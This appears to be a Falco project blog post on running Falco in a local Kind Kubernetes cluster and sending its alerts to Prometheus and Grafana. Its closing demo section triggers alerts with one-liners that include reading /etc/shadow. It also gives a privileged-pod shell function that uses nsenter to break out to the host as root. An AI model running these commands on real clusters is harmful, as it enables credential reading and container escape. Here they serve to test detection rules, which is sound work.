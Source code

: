 ```yaml
---
title: Falco on Kind with Prometheus and Grafana
date: 2020-03-19
author: Leonardo Grasso
slug: falco-kind-prometheus-grafana
---
```


Kind is a tool for running local Kubernetes clusters using Docker container "nodes", that may be used for local development or CI. It also offers a convenient and easy way to install Falco in a Kubernetes cluster and play with it locally. We will use Kind to show how to export Falco metrics to Prometheus and Grafana.

## Create a Kind cluster
Running Falco in a Kind cluster is easy, as explained in the [documentation](https://falco.org/docs/getting-started/running/#running-falco-in-a-kind-cluster). 

If you want to use the kernel module, basically, you only have to mount `/dev`.

Note that it's not mandatory to mount the entire `/dev` path. Falco just needs access to some devices created by the kernel module:

```
$ ls -l /dev/falco*
cr-------- 1 root root 238, 0 Mar 12 16:04 /dev/falco0
cr-------- 1 root root 238, 1 Mar 12 16:04 /dev/falco1
cr-------- 1 root root 238, 2 Mar 12 16:04 /dev/falco2
cr-------- 1 root root 238, 3 Mar 12 16:04 /dev/falco3
cr-------- 1 root root 238, 4 Mar 12 16:04 /dev/falco4
cr-------- 1 root root 238, 5 Mar 12 16:04 /dev/falco5
cr-------- 1 root root 238, 6 Mar 12 16:04 /dev/falco6
cr-------- 1 root root 238, 7 Mar 12 16:04 /dev/falco7
```
As you can see, the kernel module is creating one device per CPU (8 in my case). These paths are all Falco needs.

## Certificates
To export metrics to Prometheus, we will use [falco-expoter](https://github.com/falcosecurity/falco-exporter) which connects to the [Falco gRPC output](https://falco.org/docs/grpc/). The Falco gRPC server works only with mutual TLS by design. Therefore, you also need valid certificate files to configure Falco and falco-exporter properly.

You can quickly generate cert materials using [falcoctl](https://github.com/falcosecurity/falcoctl): 
```
FALCOCTL_NAME=falco-grpc.default.svc.cluster.local FALCOCTL_PATH=/tmp/certs falcoctl install tls 
```
Otherwise you can manually generate them as explained [here](https://falco.org/docs/grpc/grpc-config/#certificates).

Note that in both cases, you have to make sure to set the correct CommonName. In this example, we are using the default hostname used by the Helm chart.

## Install Falco
The official [Falco Helm Chart](https://github.com/falcosecurity/charts/tree/master/charts/falco) is a straightforward way to deploy Falco. The chart adds Falco to all nodes in your cluster using a DaemonSet.

Enable the Falco charts repository:

```
helm repo add falcosecurity https://falcosecurity.github.io/charts
helm repo update
```

Be sure to include TLS cert material and enable the gRPC output:
```
helm install falco falcosecurity/falco \
    --set-file certs.server.key=/tmp/certs/server.key,certs.server.crt=/tmp/certs/server.crt,certs.ca.crt=/tmp/certs/ca.crt \
    --set falco.grpc.enabled=true,falco.grpcOutput.enabled=true
```

## Install falco-exporter
[falco-exporter](https://github.com/falcosecurity/falco-exporter) is the Prometheus metrics exporter for Falco output events. Again here, using [the provided Helm chart](https://github.com/falcosecurity/charts/tree/master/charts/falco-exporter) is the easiest way to deploy it.

So you only have to run the helm install command:

```
helm install falco-exporter \ 
    --set-file certs.ca.crt=/tmp/certs/ca.crt,certs.client.key=/tmp/certs/client.key,certs.client.crt=/tmp/certs/client.crt \
    falcosecurity/falco-exporter 
```

## Install Prometheus

Once Falco and the exporter are up and running, we can proceed by installing Prometheus:
```
helm install prom stable/prometheus
```

Then we have to wait for Prometheus to set up and run:
```
export POD_NAME=$(kubectl get pods --namespace default -l "app=prometheus,component=server" -o jsonpath="{.items[0].metadata.name}")
kubectl --namespace default port-forward $POD_NAME 9090
```
So we can open [http://localhost:9090/targets](http://localhost:9090/targets) and check that falco-exporter has been discovered by Prometheus.


## Install Grafana and the Falco dashboard

To deploy Grafana, just run:
```
helm install grafana stable/grafana
```
Then get your 'admin' user password by running:
```
kubectl get secret --namespace default grafana -o jsonpath="{.data.admin-password}" | base64 --decode ; echo
```
When Grafana is up and running, port forward the Grafana service:
```
kubectl port-forward service/grafana 3000:80
```
To log in to Grafana, open [http://127.0.0.1:3000/login](http://127.0.0.1:3000/login) and use the 'admin' user password you got above.

Now you can add the Prometheus endpoint (`http://prom-prometheus-server.default.svc.cluster.local`) to the Grafana data sources and finally go to [http://127.0.0.1:3000/dashboard/import](http://127.0.0.1:3000/dashboard/import) and import the Falco dashboard  by copy-paste the following dashboard URL:
```
https://grafana.com/grafana/dashboards/11914
```
Otherwise, you can use the provided [dashboard.json](https://github.com/falcosecurity/falco-exporter/blob/master/grafana/dashboard.json).

![Falco dashboard](https://github.com/falcosecurity/falco-exporter/raw/master/grafana/preview.png)

Now we can generate events to see the system in action!

## Generate events 

There are many ways to demonstrate a Falco rule has been violated, and if you have loaded the default Falco ruleset here are some fun things to try.

A simple one line example is to create an alert is to `touch` a file in a well known executable directory. Also, you can `cat` or `touch` files in other potentially vulnerable directories as well.

### Common one-liners

```bash
touch /usr/local/bin/example-violation
touch /usr/bin/example-violation
cat /etc/shadow
touch /etc/example-violation
```

You can find the default ruleset [here](https://github.com/falcosecurity/rules/blob/master/rules/falco_rules.yaml). 

## Fun with privileged mode 

You can see the demo that [Kris Nóva gave at FOSDEM](https://www.youtube.com/watch?v=VrtkKgfJ3RI) and find the function `shell()` that she used defined below.


```bash
function shell () {
  kubectl run shell --restart=Never -it --image krisnova/hack:latest \
  --rm --attach \
  --overrides \
        '{
          "spec":{
            "hostPID": true,
            "containers":[{
              "name":"scary",
              "image": "krisnova/hack:latest",
	      "imagePullPolicy": "Always",
              "stdin": true,
              "tty": true,
              "command":["/bin/bash"],
	      "nodeSelector":{
		"dedicated":"master" 
	      },
              "securityContext":{
                "privileged":true
              }
            }]
          }
        }'
}
```

You can paste this into a new file `shell.sh` and source the file.

```bash
source shell.sh
```

Then you can type the following to demonstrate a privilege escalation in Kubernetes.

```
[user@user]$ shell
If you don't see a command prompt, try pressing enter.
root@shell:/# nsenter -t 1 -m -u -i -n bash
root@ip-1-2-3-4:/# 
```

Doing this takes advantage of a well known security exploit in Kubernetes, and you can find the Falco alerts rendered in Prometheus/Grafana. 


## Falco events generator 

You can find more information on generating sample events in [the official documentation](https://falco.org/docs/event-sources/sample-events/)

For a quick example, you can run the following command to begin generating events

```bash
docker run -it --rm falcosecurity/event-generator run syscall --loop
```

